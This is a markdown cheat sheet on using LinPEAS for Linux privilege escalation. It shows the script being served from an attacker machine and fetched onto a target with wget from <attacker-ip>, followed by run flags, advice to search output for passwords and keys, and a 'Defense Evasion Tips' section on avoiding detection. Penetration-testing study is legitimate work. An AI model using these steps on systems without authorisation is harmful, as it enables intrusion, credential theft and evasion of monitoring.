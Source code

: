 
---
## 🚀 Quick Start

### 1. **Download LinPEAS**

From Kali or attacker machine:
```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
```
or
```
git clone https://github.com/carlospolop/PEASS-ng.git
cd PEASS-ng/linPEAS
```

## 🖥️ Transfer to Target Machine

### Via Python HTTP Server:
```
# On attacker machine
python3 -m http.server 8080

# On target machine
wget http://<attacker-ip>:8080/linpeas.sh
chmod +x linpeas.sh
```

### 🔍 Running LinPEAS
```
./linpeas.sh
```

Optional colorized output:
```
TERM=xterm ./linpeas.sh
```

Run as root (if escalated already):
```
sudo ./linpeas.sh
```

Run and save output:
```
./linpeas.sh | tee linpeas_output.txt
```

## 🧰 Useful Flags & Tips

|Option|Description|
|---|---|
|`-a`|Run **all** LinPEAS checks|
|`-h`|Help|
|`-s`|Stealth mode (less noisy)|
|`-q`|Quiet mode (minimal output)|
|`-m`|Manual mode (pause at each section)|
## 📂 Output Sections

LinPEAS organizes output by category:

- ✅ **Potential escalation paths** (highlighted in green/yellow/red)
    
- 🔧 **System info:** OS, users, kernel, architecture
    
- 🔒 **Permissions:** SUDO, SUID, SGID, Capabilities
    
- 🔍 **Interesting Files:** Credentials, history, backups
    
- ⚙️ **Cron Jobs:** Writable scripts or misconfigured jobs
    
- 🐚 **Shell Configs:** `.bashrc`, `.profile`, etc.
    
- 🐳 **Docker/LXC:** Container misconfigs
    
- 📡 **Networking:** Open ports, services, and connections

## 🛡️ Defense Evasion Tips

- LinPEAS is noisy. Run during low-visibility windows.
    
- Use `stealth` mode in sensitive environments:
```
./linpeas.sh -s
```

## 🛠️ After LinPEAS

1. Review highlighted sections (especially RED/YELLOW/GREEN)
    
2. Search output for:
    
    - `password`
        
    - `key`
        
    - `root`
        
    - `cap_`
        
    - `docker`
        
3. Consider escalating via:
    
    - Writable scripts (e.g., cron)
        
    - Misconfigured binaries
        
    - Sudo permissions
        
    - Kernel exploits (check kernel version)

## 📚 Related Tools

|Tool|Purpose|
|---|---|
|`pspy`|Monitor running processes|
|`sudo -l`|Check sudo rights|
|`find`|Locate SUID/SGID files|
|`getcap -r / 2>/dev/null`|List file capabilities|
















